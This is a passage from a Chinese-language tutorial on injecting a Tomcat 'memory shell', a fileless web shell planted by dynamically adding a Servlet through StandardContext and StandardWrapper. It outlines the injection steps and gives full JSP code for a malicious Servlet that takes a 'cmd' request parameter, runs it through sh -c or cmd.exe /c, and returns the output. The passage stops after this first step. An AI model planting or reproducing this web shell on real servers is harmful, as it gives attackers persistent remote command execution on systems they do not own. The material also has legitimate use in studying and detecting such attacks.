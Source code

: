 而`StandardWrapper`中则会进一步的对应配置文件中的如下节点：

```xml
        <servlet-name>demoServlet</servlet-name>
        <servlet-class>DemoServlet</servlet-class>
```

![截图](c0bb3af451145d0df37470aab3391b79.png)

因此，我们的内存马仔动态的注入过程中最主要关心的就是 `StandardContext`以及 `StandardWrapper`。接下来，我们将具体的分析一下内存马的注入。

#### （2）内存马

根据`Servlet`的生命周期，我们可以知道当我们的容器启动之时，会通过解析加载的`web.xml`来配置对应的`servle`t对象，而后就会进一步的载入到容器的内存当中，直至`Web容器`的终止或者`Servlet`的重载。因此，一般情况下当前`Servlet`被载入到`Web`容器之后，就会长久的置于内存当中。我们要想完成对`Servlet`的注入，只能动态的添加 ==>  在Tomcat7之后的版本中，`StandardContext`类中提供了动态添加`Servlet`类的方法：利用`addServlet`。

根据前一节所述，我们在注入内存马的过程中主要会经历以下几个过程：

- 创建一个新的恶意的`Servlet`；
- 获取当前的`StandardContext`	；
- 将创建的恶意`Servlet`封装成`StandardWrapper`并添加到`StandardContext`的`children`当中；
- 进一步的继续添加`ServletMapping`	并将访问的`URL`和`wrapper`进行绑定。

**第一步：**创建一个新的恶意的`Servlet`

直接在demo的模板上进行修改，并在service中加入我们的命令执行操作！

```jsp
<%
    // 创建恶意Servlet
    Servlet servlet = new Servlet() {
        @Override
        public void init(ServletConfig servletConfig) throws ServletException {

        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
            String cmd = servletRequest.getParameter("cmd"); // 获取参数cmd的值
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name"); //判断系统是linux还是Windows
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {  
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};//调用命令行交互页面
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream(); //执行
            Scanner s = new Scanner(in).useDelimiter("\\a");
            String output = s.hasNext() ? s.next() : "";
            PrintWriter out = servletResponse.getWriter();
            out.println(output);
            out.flush();
            out.close();
        }
        @Override
        public String getServletInfo() {
            return null;
        }
        @Override
        public void destroy() {

        }
    };
```
